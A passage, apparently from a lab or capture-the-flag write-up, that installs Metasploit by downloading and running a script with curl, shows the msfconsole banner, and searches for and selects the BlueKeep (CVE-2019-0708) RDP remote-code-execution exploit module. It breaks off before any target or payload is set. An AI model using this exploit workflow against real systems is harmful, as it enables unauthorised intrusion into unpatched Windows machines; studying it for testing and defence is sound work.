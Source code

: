 ```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

Running msfconsole is shown below:

```
root@artemrescue:~# msfconsole 
[-] ***rting the Metasploit Framework console...-
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.85-dev-                         ]
+ -- --=[ 2000 exploits - 1091 auxiliary - 342 post       ]
+ -- --=[ 560 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Metasploit can be configured at startup, see msfconsole --help to learn more

msf5 >
```



I knew that I could use the Bluekeep vulnerability. So I searched for that and choose the second one:

```
msf5 > search bluekeep

Matching Modules
================

   #  Name                                            Disclosure Date  Rank    Check  Description
   -  ----                                            ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep    2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
   1  exploit/windows/rdp/cve_2019_0708_bluekeep_rce  2019-05-14       manual  Yes    CVE-2019-0708 BlueKeep RDP Remote Windows Kernel Use After Free


msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
